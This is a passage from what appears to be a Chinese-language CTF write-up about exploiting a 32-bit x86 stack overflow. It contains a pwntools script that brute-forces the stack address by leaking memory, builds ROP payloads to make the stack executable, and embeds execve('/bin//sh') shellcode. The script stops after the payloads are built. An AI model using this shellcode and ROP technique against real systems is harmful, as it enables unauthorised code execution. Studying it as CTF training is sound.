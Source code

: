 <img src="/images/posts/keen/x86stackoverflow/1533829878156.png" >

那怎么办。。我们可以通过调用read来往栈上写东西，然后再跳到那里去执行就可以随便执行gadget啦.....所以我们的重点就变成了爆破栈地址。
下面主要介绍一下爆破栈地址的思路：
先输入一串字符，利用write来打印栈上的东西，直到找到某一段打印出来的东西包含的我们读进去的特定字符串，那么，恭喜你，就找到了栈地址啦......
```
from pwn import *
context.log_level = 'debug'

#io = process("./pro")
io = remote("xxxxxxxx",xxxx)

add_addr = 0x0804817C
sys_write = 0x80480F9
start = 0x80480b8
int_80 = 0x80480f2
sys_read = 0x080480E1
set_ebx_ecx_edx_addr = 0x080480fe

mark = "flagflagflagflag"
pattern = "a"*0x10

def getstack(io,add):
	payload = mark 
	payload += p32(sys_write) + p32(start) + p32(1) + p32(add) + p32(0x500)	
	io.recvuntil("like a PRO:")
	io.send(payload)
	io.recvuntil("Good Luck!\n")
	try:
		data = io.recv(0x500)
		if mark in data:
			offset = data.find(mark)
			return add+offset
		else:
			return 0 
	except Exception as e:
		return -1

#base = 0xff8da000
base = 0xffdd0000
for d in range(0,0x2000):
	stack_add = d*(0x500) + base
	add = getstack(io,stack_add)
	if add>0:
		break
print "[*]stack addr : 0x%x"%add

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload2 = p32(sys_write) + p32(add_addr) + p32(1) + p32(0x8048000) + p32(0x7d) + "A"*0x14 + p32(set_ebx_ecx_edx_addr) + p32(add + 0x44) + p32(add&0xfffff000) + p32(0x1000) + p32(7) + shellcode

payload1 = pattern + p32(sys_read) + p32(start) + p32(0) + p32(add + 0x8) + p32(len(payload2))
```
